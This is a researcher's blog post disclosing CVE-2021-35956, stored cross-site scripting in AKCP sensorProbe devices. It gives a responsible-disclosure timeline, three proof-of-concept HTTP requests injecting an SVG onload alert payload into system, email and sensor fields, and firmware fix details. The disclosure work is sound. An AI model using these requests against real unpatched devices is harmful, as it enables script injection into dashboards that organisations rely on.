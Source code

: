 ```yaml
---
title: CVE-2021-35956 AKCP sensorProbe - 'Multiple' Cross Site Scripting (XSS)
description: Getting my first CVE vulnerability assigned 🎉
featured: true
feature-header: "Featured Research \U0001F447"
tag: Vulnerability Research
image: "/assets/img/posts/2021-06-28-CVE-2021-35956/preview.png"
layout: post
date: '2021-06-28 00:01:21 -0400'
last-updated: '2021-06-28 00:01:21 -0400'
style: blog1
author: Tyler Butler
lead: Getting my first CVE vulnerability assigned 🎉
card: card-2
postid: 1
redirect_from:
- "/CVE-2021-35956"
navheader: posts
---
```


This week, I was incredibly fortunate to finally get my first CVE vulnerability assigned by Mitre 🎉 ! <a href="https://nvd.nist.gov/vuln/detail/CVE-2021-35956" class="highlighted">CVE-2021-35956</a> details multiple stored cross-site scripting (XSS) vulnerabilities I discovered in the AKCP sensorProbe embedded webserver. In this post, I'll describe the technical details of the vulnerability, the vendor's response, and remediation options. Overall AKCP was an exceptional partner in the responsible disclosure process, remediating the issue quickly and providing me with a test unit to verify the updated firmware. 

####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)
+  [About the Vendor]({{page.url}}#-about-the-vendor)
+  [Vulnerability Details]({{page.url}}#-cve-2021-35956-vulnerability-details)
+  [Firmware Upgrade]({{page.url}}#-firmware-upgrade)

#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I attempt to find a security contact at AKCP, could not do so, and contacted the sales team at sales@akcp.com</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I recieve response from management, and release my responsible disclosure report</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me a copy of beta test firmware for the fix</div>
              <div class="tl-date text-muted mt-1">15 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me an ip address for a test unit to verify the fix, I confirm the vulnerability has been fixed</div>
              <div class="tl-date text-muted mt-1">16 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP releases updated <a href="http://www.akcp.in.th/downloads/Firmwares/SP480-20210624.zip" class="highlighted">firmware</a> on their website and updates their <a href="https://www.akcp.com/support-center/customer-login/sensor-probe-firmware-changelog/" class="highlighted">changelog</a> mentioning the XSS vulnerability</div>
              <div class="tl-date text-muted mt-1">25 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I submit a request for CVE through Mitre's <a href="https://cveform.mitre.org/" class="highlighted">submission form</a></div>
              <div class="tl-date text-muted mt-1">28 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">Mitre reserves CVE-2021-35956 for the vulnerability </div>
              <div class="tl-date text-muted mt-1">29 June 2021</div>
          </div>
      </div>
    </div>

#### **💡 About the Vendor**  

<a href="https://www.akcp.com" class="highlighted">AKCP</a> is a sensor manufacturer developing network-based temperature, enviorment, and power monitoring devices. Their clients include big names like Nasa, Coca-cola, Toyota, Adobe, and much <a href="https://www.akcp.com/about-akcp-2/" class="highlighted">more</a>. Their most popular devices include the sensorProbe, securityProbe, and AKCPro Server. This research identifies multiple stored cross-site scripting vulnerabilities in all sensorProbe devices. According to <a href="https://www.akcp.com/akcp-products/sensorprobe-series/" class="highlighted">AKCP</a>, the sensorProbe devices are,

*"the worlds **most installed** Remote Environmental Sensor Monitoring Device ... deployed in a wide variety of industries including Data Center Environmental Monitoring, Warehouse Temperature Monitoring, Cold Storage Temperature Monitoring, Fuel / Generator Monitoring, and other Remote Site Monitoring applications."*



####  **🆘 CVE-2021-35956 Vulnerability Details**  

All sensorProbe devices prior to firmware version SP480-20210624 are vulnerable to authenticated stored cross-site scripting via the Sensor Description, Email, and System setting fields. Authenticated users can introduce arbitrary javascript through the vulnerable fields, and have payloads execute in the context of users who visit the sensorProbe embedded webserver dashboard. While stored XSS can be dangerous, this vulnerability requires the attacker to already be authenticated in order to store payloads. 

*The following section identifies proof of concepts for each vulnerable field*  

#### Stored Cross-Site Scripting via System Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the system name and system location parameters in system settings.

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  

```yaml
POST /system?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 114
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/system?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

_SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save
```  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_0.png">
    </div>
</div>  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss-1.png">
    </div>
</div>  



#### 2) Stored Cross-Site Scripting via Email Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the mail from, mail to, and mail cc  parameters in email settings.  

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**

```yaml
POST /mail?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 162
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/mail?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


_PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save
```   

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_2x.png">
    </div>
</div>  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_3.png">
    </div>
</div>  




#### 3) Stored Cross-Site Scripting via Sensor Description

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via sensor settings description parameter for each of the sensor options. 


**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  


```yaml
POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/senswatr?index=0&time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CPCookie=sensors=400
Connection: close

_WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save
```  

####  **🚀 Firmware Upgrade**  

As of Friday June 25th, SensorProbe users can upgrade their devices to SP480-20210624 according to AKCP standards outlined in the <a href="https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/" class="highlighted">firmware download</a> page.  

```text
Firmware Update – Download – release date 28 June 2021
Latest Firmware – SP480-20210624
Note: To download files, right-click on the file and select “save as”
md5sum: 83f107f274ed6fda2cd5aa0f21935a98

IMPORTANT NOTE: The sensorProbe2 & SP8 units with the Atmega128 micro-controller (SPxxxi) do not support this firmware version. You can check your units micro-controller version in the web interface System page >> System Description. If you see an “I” after the firmware version (SPxxxi) then your unit is using the older Atmega128 micro-controller. Please see below for the latest firmware for your SP8 base unit.
```  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/changelog.png">
    </div>
</div>  



